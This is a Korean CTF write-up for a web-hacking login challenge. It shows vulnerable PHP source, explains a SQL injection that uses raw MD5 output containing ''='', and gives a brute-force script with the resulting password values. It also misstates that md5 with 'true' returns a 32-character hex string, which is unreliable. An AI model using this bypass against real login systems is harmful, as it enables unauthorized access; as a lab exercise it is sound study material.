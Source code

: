 #51
===



로그인 페이지가 보인다.

![](https://postfiles.pstatic.net/MjAyMDAxMThfNDUg/MDAxNTc5MzUwMzMxMzMx.MUAlmp7cW64yuZDZxfRTkcp2FbBoGiWEm_WrmYnOXC0g.nP0tOnX9R8oV4Kh4t2QB0metBZkQdu5e63gp9rjiIzog.JPEG.rlaeoghks823/K-037.jpg?type=w773)

id와 pw에 아무거나쳐봤다.

![](https://postfiles.pstatic.net/MjAyMDAxMThfMTY5/MDAxNTc5MzUwMzM0MzU4.n8rMYBKzZflnpu_hho8QJMEySTfY-EPUClMacv1faxkg.9FMj9b9VNwrpnyN5xKSmetLp9WcV6wH0Xt8WSIwaEc8g.JPEG.rlaeoghks823/K-038.jpg?type=w773)

wrong이라는 문구가 뜨고 끝이다.

어떤 방식으로 해결해야할지 실마리를 얻기 위해 소스 코드를 봐보았다.

```php
<?php
  include "../../config.php";
  if($_GET['view_source']) view_source();
?>```
```html
<html>
<head>
<title>Challenge 51</title>
<style>
table{ color:lightgreen;}
</style>
</head>
<body bgcolor=black><br><br>
<font color=silver>
<center><h1>Admin page</h1></center>
</font>```
```php
<?php
  if($_POST['id'] && $_POST['pw']){
    $db = dbconnect();
    $input_id = addslashes($_POST['id']);
    $input_pw = md5($_POST['pw'],true);
    $result = mysqli_fetch_array(mysqli_query($db,"select id from chall51 where id='{$input_id}' and pw='{$input_pw}'"));
    if($result['id']) solve(51);
    if(!$result['id']) echo "<center><font color=green><h1>Wrong</h1></font></center>";
  }
?>```
```html
<br><br><br>
<form method=post>
<table border=0 align=center bgcolor=gray width=200 height=100>
<tr align=center><td>ID</td><td><input type=text name=id></td></tr>
<tr align=center><td>PW</td><td><input type=password name=pw></td></tr>
<tr><td colspan=2 align=center><input type=submit></td></tr>
</table>
<font color=silver>
<div align=right><br>.<br>.<br>.<br>.<br><a href=./?view_source=1>view-source</a></div>
</font>
</form>
</body>
</html>
```

눈에 띄는 코드는 다음과 같다.

```php
$input_pw = md5($_POST['pw'],true);
    $result = mysqli_fetch_array(mysqli_query($db,"select id from chall51 where id='{$input_id}' and pw='{$input_pw}'"));
    if($result['id']) solve(51);
```

먼저 md5라는 함수에서 pw값을 md5값으로 바꿔준다. 

인자를 true로 주면 16진수 32글자로된 md5 해시값의 문자열을 반환해준다. 

문제를 해결하기 위해 아래와 같은 과정이 필요하다.

pw에 `어떤 값1 = 어떤 값2`라는걸 넣어주면  
pw = 어떤 값1 = 어떤 값2가 된다.

여기서  
pw = 어떤 값1 -> 거짓

어떤 값2도 문자이므로 거짓이다.

따라서 거짓=거짓 으로 인해 pw='{$input_pw}'는 참이 된다.

그래서 md5로 인코딩 했을 때 나오는 값이 '='이 든 값을 찾기 위해서 아래와 같은 코드를 구했다.

```php
<?php
for($i=0;$i<10000000;$i++){
	if(strstr(md5($i,true),"'='")){
		echo ("$i, ");
	}
}
```

이로써 나온 값은 `1839431, 2584670, 2632003, 2998869, 4939073, 5263117, 5273607, 5872358, 7201387, 8930081, 9235566,` 이였고 이중 값 하나를

pw에 넣어주니 문제가 해결되었다.
